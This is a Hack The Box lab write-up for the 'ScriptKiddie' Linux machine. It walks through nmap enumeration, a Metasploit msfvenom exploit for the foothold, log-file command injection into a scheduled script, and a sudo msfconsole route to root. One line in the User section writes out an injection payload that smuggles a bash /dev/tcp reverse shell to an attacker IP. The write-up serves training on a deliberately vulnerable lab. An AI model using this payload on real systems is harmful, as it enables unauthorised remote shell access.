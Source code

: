 ```yaml
---
title: "[HTB] Machine: ScriptKiddie"
description: "[HTB] Machine: ScriptKiddie"
date: 2023-07-09
menu:
  sidebar:
    name: "[HTB] Machine: ScriptKiddie"
    identifier: htb-machine-scriptkiddie
    parent: htb-machines-linux
    weight: 10
hero: images/scriptkiddie.png
tags: ["HTB"]
---
```


# ScriptKiddie
## Enumeration
- ```Nmap```
```
└─$ nmap -sC -sV -Pn 10.10.10.226  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 19:55 BST
Nmap scan report for 10.10.10.226 (10.10.10.226)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c656bc2dfb99d627427a7b8a9d3252c (RSA)
|   256 b9a1785d3c1b25e03cef678d71d3a3ec (ECDSA)
|_  256 8bcf4182c6acef9180377cc94511e843 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.63 seconds

```
- Web server

![](./images/1.png)

## Foothold
- I tried different payloads for command injection, but none of them worked
  - So I checked if there are any exploit for any of the services running

![](./images/2.png)

- But we don't have a version of the `mfsvenom`
  - So let's try the exploit anyway
  - We can generate payload using `msfconsole` or python script
  - I chose `msfconsole` since it was easier to do

![](./images/3.png)
![](./images/4.png)

- Generate payload
  - Upload it and launch it

![](./images/5.png)
![](./images/6.png)
![](./images/7.png)

## User
- We can read `pwn`'s directory
  - Upon scanning we see `scanlosers.sh` script, which looks like automated job since it saves output to `recon` folder
  - We can edit the script
  - But we need to find the format of the lines in the input file `/home/kid/logs/hackers`

![](./images/8.png)

- If we grep for `hackers` in `kid`'s home directory we find the source code for the `app` and the lines of code responsible for saving the logs

![](./images/9.png)
![](./images/10.png)

- Looks like the format is `[2023-07-10 21:18:21.342176] 10.10.16.12`
  - But the file is empty, which means it get cleaned since I definitely tried command injections

![](./images/11.png)

- Let's try injecting the commands to the log file
  - The script cuts out the 3 column and supplies it to `nmap`, so we add 'a a 127.0.0.1' to pass the check
  - Then we have our command and comment out the rest of the command with `#`

![](./images/12.png)

- Let's get reverse shell
  - `echo "a a 127.0.0.1;bash -c 'bash -i >& /dev/tcp/10.10.16.12/7777 0>&1' #" > hackers`

![](./images/13.png)

## Root
- `pwn` has `sudo` rights

![](./images/14.png)

- Follow [GTFOBins](https://gtfobins.github.io/gtfobins/msfconsole/) to get a `root`

![](./images/15.png)
![](./images/16.png)
